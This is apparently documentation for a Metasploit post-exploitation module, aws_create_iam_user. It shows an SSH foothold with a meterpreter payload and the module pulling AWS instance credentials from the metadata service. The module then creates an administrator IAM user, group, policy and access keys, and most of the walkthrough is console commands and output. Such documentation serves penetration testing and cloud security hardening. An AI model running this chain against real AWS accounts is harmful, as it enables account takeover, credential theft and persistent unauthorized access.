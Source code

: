 # aws_create_iam_user

aws_create_iam_user is a simple post module that can be used to take over AWS
accounts. Sure, it is fun enough to take over a single host, but you can own all
hosts in the account if you simply create an admin user.

## Privileges

This module depends on administrators being lazy and not using the least
privileges possible. Only on rare cases should instances have the following
privileges.

* iam:CreateUser
* iam:CreateGroup
* iam:PutGroupPolicy
* iam:AddUserToGroup
* iam:CreateAccessKey

## Establish a foothold

You first need a foothold in AWS, e.g., here we use `sshexec` to get the
foothold and launch a meterpreter session.

```
$ ./msfconsole
...
msf > use exploit/multi/ssh/sshexec
msf exploit(sshexec) > set password some_user
password => some_user
msf exploit(sshexec) > set username some_user
username => some_user
msf exploit(sshexec) > set RHOST 192.168.1.2
RHOST => 192.168.1.2
msf exploit(sshexec) > set payload linux/x86/meterpreter/bind_tcp
payload => linux/x86/meterpreter/bind_tcp
msf exploit(sshexec) > exploit -j
[*] Exploit running as background job.

[*] Started bind handler
msf exploit(sshexec) > [*] 192.168.1.2:22 - Sending stager...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Command Stager progress -  42.09% done (306/727 bytes)
[*] Command Stager progress - 100.00% done (727/727 bytes)
[*] Sending stage (1495599 bytes) to 192.168.1.2
[*] Meterpreter session 1 opened (192.168.1.1:33750 -> 192.168.1.2:4444) at 2016-11-21 17:58:42 +0000
```

We will be using session 1.

```
msf exploit(sshexec) > sessions

Active sessions
===============

  Id  Type                   Information                                                                       Connection
  --  ----                   -----------                                                                       ----------
  1   meterpreter x86/linux  uid=50011, gid=50011, euid=50011, egid=50011, suid=50011, sgid=50011 @ ip-19-...  192.168.1.1:41634 -> 192.168.1.2:4444 (192.168.1.2)

```

## Create IAM User

Now you can load `aws_create_iam_user` and specify a meterpreter sesssion,
e.g., `SESSION 1`.

```
msf exploit(sshexec) > use auxiliary/admin/aws/aws_create_iam_user
msf post(aws_create_iam_user) > set SESSION 1
SESSION => 1
msf post(aws_create_iam_user) > exploit

[*] 169.254.169.254:80 - looking for creds...
[*] Creating user: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] Path: /
[!] UserName: metasploit
[!] Arn: arn:aws:iam::097986286576:user/metasploit
[!] UserId: AIDA...
[!] CreateDate: 2016-11-21T17:59:50.010Z
[*] Creating group: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] Path: /
[!] GroupName: metasploit
[!] Arn: arn:aws:iam::097986286576:group/metasploit
[!] GroupId: AGPAIENI6YTM5JVRQ2452
[!] CreateDate: 2016-11-21T17:59:50.554Z
[*] Creating group policy: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] xmlns: https://iam.amazonaws.com/doc/2010-05-08/
[!] ResponseMetadata: {"RequestId"=>"4c43248-d314-1226-bedd-234234232"}
[*] Adding user (metasploit) to group: metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] xmlns: https://iam.amazonaws.com/doc/2010-05-08/
[!] ResponseMetadata: {"RequestId"=>"4c43248-d314-1226-bedd-234234232"}
[*] Creating API Keys for metasploit
[*] iam.amazonaws.com:443 - Connecting (iam.amazonaws.com)...
[!] AccessKeyId: AKIA...
[!] SecretAccessKey: THE SECRET ACCESS KEY...
[!] AccessKeySelector: HMAC
[!] UserName: metasploit
[!] Status: Active
[!] CreateDate: 2016-11-21T17:59:51.967Z
[+] API keys stored at: /home/pwner/.msf4/loot/20161121175902_default_52.1.2.3_AKIA_881948.txt
[*] Post module execution completed
msf post(aws_create_iam_user) > exit -y
```

You can see the API keys stored in loot:

```
$ cat ~/.msf4/loot/20161121175902_default_52.1.2.3_AKIA_881948.txt

{"AccessKeyId":"AKIA...","SecretAccessKey":"THE SECRET ACCESS KEY...","AccessKeySelector":"HMAC","UserName":"metasploit","Status":"Active","CreateDate":"2016-11-21T17:59:51.967Z"}
```